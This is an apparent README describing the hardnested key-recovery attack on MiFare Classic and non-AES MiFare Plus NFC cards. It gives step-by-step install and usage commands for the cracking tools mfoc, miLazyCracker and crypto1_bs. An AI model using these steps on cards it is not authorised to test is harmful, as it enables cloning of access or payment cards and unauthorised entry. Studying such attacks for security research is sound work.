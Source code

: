 # Hardnested attack

### Works on
New MiFare Classic and MiFare Plus without AES (Note that AES is disabled by default)

### Attack

1. Collect 2000-4000 nonces with a NFC card reader. The speed in collecting nonces depends on the reader.

2. Analyze the nonces generated in step 1 in order to reduce the key original space of 2^48

3. Offline Brute Force

### Software

Before using other methods, always try to use **mfoc** first, since it's the faster and easiest method, if the card is vulnerable to nested attack

```bash
$ git clone https://github.com/nfc-tools/mfoc
$ cd mfoc
$ autoreconf -vfi
$ ./configure
$ make
$ sudo make install
```

If mfoc shows "Card is not vulnerable to nested attack", you have to use hardnested attack.
You can do this with an automatic tool, or manually

#### Automatic method

```bash
# Installation
$ git clone https://github.com/nfc-tools/miLazyCracker
$ ./miLazyCrackerFreshInstall.sh

# Run with a usb NFC card reader connected
$ miLazyCracker
```

#### Manual method

```bash
# Installation
$ git clone https://github.com/aczid/crypto1_bs
$ cd crypto1_bs
$ make get_craptev1
$ make get_crapto1
$ make
$ sudo make install

# Usage
$ libnfc_crypto1_crack <known_key> <for_block> <A|B> <target_block> <A|B>

# Example
# Note that we have to write the block, not the sector, so the 20th block is the last block of sector 5, and the 24th block is the last block of sector 6
$ libnfc_crypto1_crack 0123456789ab 20 B 24 B

```